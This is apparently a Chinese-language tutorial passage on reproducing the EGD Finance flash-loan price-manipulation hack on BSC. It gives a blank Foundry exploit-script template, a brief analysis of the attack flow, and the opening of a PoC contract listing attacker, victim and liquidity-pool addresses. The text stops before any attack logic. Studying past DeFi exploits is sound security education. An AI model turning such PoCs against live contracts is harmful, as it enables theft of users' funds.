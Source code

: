 ```solidity

// @Info
// Vulnerable Contract Code : https://etherscan.io/address/0xdeadbeef#code

// @Analysis
// Post-mortem : https://www.google.com/
// Twitter Guy : https://www.google.com/
// Hacking God : https://www.google.com/


contract ExploitScript is Script {
    function setUp() public {}

    function run() public {
        vm.startBroadcast();

        
        vm.stopBroadcast();
    }
}
```

采用`EGD Finance`为例，其哈希为`0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3`，发生在`BSC`链上。

分析流向

- 攻击者只调用了一笔 `harvest`
- 连续两个闪电贷，通过利用`calacuteEDGprice`喂价的问题，

所以POC合约如下：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../interface.sol";

// @KeyInfo - Total Lost : ~36K US$
// Event : EGD-Finance Hack
// Analysis via https://explorer.phalcon.xyz/tx/bsc/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3
// Attacker : 0xee0221d76504aec40f63ad7e36855eebf5ea5edd
// Attack Contract : 0xc30808d9373093fbfcec9e026457c6a9dab706a7
// Vulnerable Contract : 0x34bd6dba456bc31c2b3393e499fa10bed32a9370 (EGD Staking Proxy Contract)
// Vulnerable Contract : 0x93c175439726797dcee24d08e4ac9164e88e7aee (EDG Staking Logic Contract)
// Attack Tx : https://bscscan.com/tx/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3

// @Info
// FlashLoan Lending Pool USDT_WBNB : 0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE
// FlashLoan Lending Pool EGD_USDT : 0xa361433E409Adac1f87CDF133127585F8a93c67d
// Swap Pancake Router : 0x10ED43C718714eb63d5aA57B78B54704E256024E

// @Analysis
// DefiHackLab : https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/03_write_your_own_poc/

IPancakePair constant USDT_WBNB_LPPool = IPancakePair(0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE);
IPancakePair constant EGD_USDT_LPPool = IPancakePair(0xa361433E409Adac1f87CDF133127585F8a93c67d);
IPancakeRouter constant pancakeRouter = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));

address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
```